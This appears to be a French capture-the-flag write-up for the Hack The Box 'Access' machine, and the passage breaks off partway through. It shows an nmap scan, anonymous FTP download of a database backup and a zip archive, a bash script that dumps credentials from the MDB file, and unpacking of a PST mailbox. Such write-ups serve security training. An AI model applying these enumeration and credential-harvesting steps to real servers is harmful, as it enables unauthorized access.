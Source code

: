 # Access writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)](https://image.noelshack.com/fichiers/2019/09/6/1551530466-capture-du-2019-03-02-13-40-56.png)

Informations
----
    Ip : 10.10.10.98       Created by : egre55
    Level : Very easy            Base Points : 20
    
Scan Nmap
----
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    23/tcp open  telnet?
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: MegaCorp
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
 Après avoir effectué le scan, nous avons 3 ports ouverts, le (21) pour le FTP, le (23) pour le telnet, et le (80) pour le httpd. Le FTP peut être accéder en tant que anonymous donc nous allons essayer d'énumérer.
 
FTP Enumeration
----
Pour la connexion au serveur FTP, l'utilisateur et le mot de passe 'anonymous:anonymous'.

    root@Computer:~/htb/writeup/Access# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp>
 
 La connexion c'est déroulais avec succès donc essayons de lister les fichiers dans le dossier.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM       <DIR>          Backups
    08-24-18  09:00PM       <DIR>          Engineer
    226 Transfer complete.
    ftp>
    
Comme vous pouvez le voir, il y'a un dossiers Backups et un dossier Engineer. Dans le dossier Backups il y'a un fichier mdb, pour les bases de données, et dans le dossier Engineer il y'a un fichier zip. Donc nous allons transférer c'est fichiers vers notre machine physique avec la commande **mget [file]**, avant de transférer nous devons passer de ASCII à BINAIRE.

    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-23-18  08:16PM              5652480 backup.mdb
    226 Transfer complete.
    ftp> binary
    200 Type set to I.
    ftp> mget backup.mdb
    mget backup.mdb? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5652480 bytes received in 7.70 secs (716.7322 kB/s)
    ftp> cd ..
    250 CWD command successful.
    ftp> cd Engineer
    250 CWD command successful.
    ftp> ls
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    08-24-18  12:16AM                10870 Access Control.zip
    226 Transfer complete.
    ftp> mget "Access Control.zip"
    mget Access Control.zip? y
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    10870 bytes received in 0.83 secs (12.7677 kB/s)
    ftp> 

Voilà les fichiers ont été transférer avec succès, sans aucun problème donc nous pouvons quitter le serveur FTP. Et d'énumérer c'est fichiers.

Enumeration MDB
----
Nous allons installer un petit programme pour dump tout ça. Vous devez installé le paquet **mdbtools** avec apt, vous pouvez aussi également utilisé la version GUI avec **mdbtools-gmdb2**.

Pour voir les tables utilisé la commande :

    root@Computer:~/htb/writeup/Access# mdb-tables -1 backup.mdb
    [...SNIP...]
    auth_user
    [...SNIP...]
    
J'ai créer un petit script en bash pour automatisé tout ça, et de chopper les mots de passes plus facilement grâce à mon petit script en bash.

    #!/bin/sh

    name_file=$1
    # This variable will be the file.

    for tables_names in $(mdb-tables -1 $name_file)
    do
      ExportCommand=("mdb-export $name_file $tables_names")
      # Will execute the command.
      if [ "$ExportCommand" != '' ]; then
        $ExportCommand|grep ,26,
      fi
    done
    
Et la sortie du fichier :

    root@Computer:~/htb/writeup/Access# bash server.sh backup.mdb 
    25,"admin","admin",1,"08/23/18 21:11:47",26,
    27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
    28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
    root@Computer:~/htb/writeup/Access#

Parfait nous avons des identifiants. Les mots de passes trouvé peut correspondre au fichier ZIP que nous allons extraire sous Linux.

Archive ZIP
----
    root@Computer:~/htb/writeup/Access# unzip Access\ Control.zip 
    Archive:  Access Control.zip
       skipping: Access Control.pst      unsupported compression method 99
    root@Computer:~/htb/writeup/Access#

Donc visiblement le programme ne peut pas supporter donc après avoir chercher sur le web pendant beaucoup de temps nous allons essayer avec le programme 7zip, et essayer d'extraire ce fichier.

    root@Computer:~/htb/writeup/Access# 7z x Access\ Control.zip 

    7-Zip [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
    p7zip Version 9.20 (locale=fr_FR.UTF-8,Utf16=on,HugeFiles=on,4 CPUs)

    Processing archive: Access Control.zip

    Extracting  Access Control.pst
    Enter password (will not be echoed) :


    Everything is Ok

    Size:       271360
    Compressed: 10870
    root@Computer:~/htb/writeup/Access#
    
Parfait avec l'outil 7z, l'extraction fonctionne parfaitement il suffit d'utiliser l'option 'x' pour extraire les fichiers. Donc ça été extrait avec succès donc à la sortie nous avons un fichier pst.

Donc ce fichier il y'a rien de spécial, un code inintellegible. Donc pour lire un fichier PST, vous devez installé readpst. avec la commande apt.

    sudo apt-get install libgsf-1-dev libboost-python-dev

Pour lire le fichier donc il faut tapé la commande ci-dessous :

    root@Computer:~/htb/writeup/Access# readpst Access\ Control.pst -o .
    Opening PST file and indexes...
    Processing Folder "Deleted Items"
            "Access Control" - 2 items done, 0 items skipped.
    root@Computer:~/htb/writeup/Access#

Parfait donc le programme à réussis a lire le fichier PST, visiblement c'est un fichier HTML, donc essayer de voir cela.
